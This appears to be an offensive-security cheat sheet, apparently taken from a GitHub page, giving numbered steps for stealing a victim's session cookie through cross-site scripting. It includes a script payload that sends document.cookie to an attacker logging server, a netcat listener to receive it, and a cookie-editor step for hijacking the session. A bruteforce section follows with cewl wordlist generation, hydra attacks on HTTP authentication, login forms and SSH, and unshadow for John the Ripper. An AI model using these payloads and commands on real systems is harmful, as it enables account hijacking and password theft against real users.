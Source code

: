 
1) attacker: first finds a vulnerable server and its breach point.

2) attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):
```javascript
<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>
```

3) attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:
```bash
nc -vv -k -l -p 80
```

4) attacker: when victim client pc browses the vulnerable server, check the output of the command above.

5) attacker: after obtaining the victim's cookie, utilize a firefox's add-on called Cookie Quick Manager to change to the victim's cookie in an effort to hijack the victim's privilege.


### bruteforce (hydra, john, hashcat)
wordlist generation
```bash
cewl example.com -m 3 -w wordlist.txt
```

hydra http basic auth brute
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-head /admin/
```

hydra brute http digest
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-get /admin/
```

hydra brute http post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed"
```

hydra brute http authenticated post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

hydra brute
```bash
hydra -f -v -V -L users.txt -P rockyou-15.txt -s 2223 -f ssh://10.10.10.17
hydra -v -V -l admin -P rockyou-10.txt ssh://10.10.10.18
```

combine passwd with shadow file for john the ripper:
```bash
unshadow passwd shadow > crack.hash
```
